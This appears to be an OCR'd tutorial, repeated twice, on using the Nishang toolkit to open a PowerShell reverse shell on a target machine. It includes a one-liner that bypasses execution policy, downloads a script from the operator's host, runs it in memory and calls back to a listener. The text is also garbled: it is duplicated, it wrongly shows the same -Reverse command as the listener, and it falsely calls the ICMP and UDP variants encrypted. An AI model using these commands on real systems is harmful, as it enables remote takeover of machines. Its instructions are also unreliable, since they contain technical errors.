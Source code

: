Open PowerShell as an administrator and navigate to the directory where you extracted Nishang.

Load the "Invoke-PowerShellTcp.ps1" script into your PowerShell session by running:

Import-Module .\Shells\Invoke-PowerShellTcp.ps1
Start a listener to receive the incoming reverse shell by running:

Invoke-PowerShellTcp -Reverse -IPAddress <YOUR_IP_ADDRESS> -Port <YOUR_PORT>
Replace <YOUR_IP_ADDRESS> and <YOUR_PORT> with your own values. 

This command will start a listener on your machine and wait for an incoming connection from the target machine.

On the target machine, run the following command to create the reverse shell:

Invoke-PowerShellTcp -Reverse -IPAddress <YOUR_IP_ADDRESS> -Port <YOUR_PORT>
Replace <YOUR_IP_ADDRESS> and <YOUR_PORT> with the IP address and port of your listener. 
This command will create a PowerShell session on the target machine and connect back to your machine, allowing you to execute commands on the target machine.

Note that this example creates an unencrypted reverse shell. If you need to create an encrypted reverse shell, Nishang also contains scripts for that, such as "Invoke-PowerShellIcmp" and "Invoke-PowerShellUdp". 
Be sure to use Nishang responsibly and only on systems that you have permission to test on.

//
//
//

Here's an example of how to use Nishang to create a PowerShell reverse shell:

Download Nishang from the official GitHub repository: https://github.com/samratashok/nishang

Extract the contents of the downloaded ZIP file to a directory of your choice.

Open PowerShell as an administrator and navigate to the directory where you extracted Nishang.

Load the "Invoke-PowerShellTcp.ps1" script into your PowerShell session by running:

```
Import-Module .\Shells\Invoke-PowerShellTcp.ps1
```

Start a listener to receive the incoming reverse shell by running:
```
Invoke-PowerShellTcp -Reverse -IPAddress <YOUR_IP_ADDRESS> -Port <YOUR_PORT>
```

Replace <YOUR_IP_ADDRESS> and <YOUR_PORT> with your own values. 
This command will start a listener on your machine and wait for an incoming connection from the target machine.

On the target machine, run the following command to create the reverse shell:
```
powershell.exe -ExecutionPolicy Bypass -NoExit -Command "IEX (New-Object Net.WebClient).DownloadString('http://<YOUR_IP_ADDRESS>:<YOUR_PORT>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <YOUR_IP_ADDRESS> -Port <YOUR_PORT>"
Replace <YOUR_IP_ADDRESS> and <YOUR_PORT> with the IP address and port of your listener. 
```
This command will download the "Invoke-PowerShellTcp.ps1" script from your machine, 
load it into memory, and create a reverse shell back to your listener.

Note that this example creates an unencrypted reverse shell. 
If you need to create an encrypted reverse shell, Nishang also contains scripts for that, such as "Invoke-PowerShellIcmp" and "Invoke-PowerShellUdp". 
Be sure to use Nishang responsibly and only on systems that you have permission to test on.

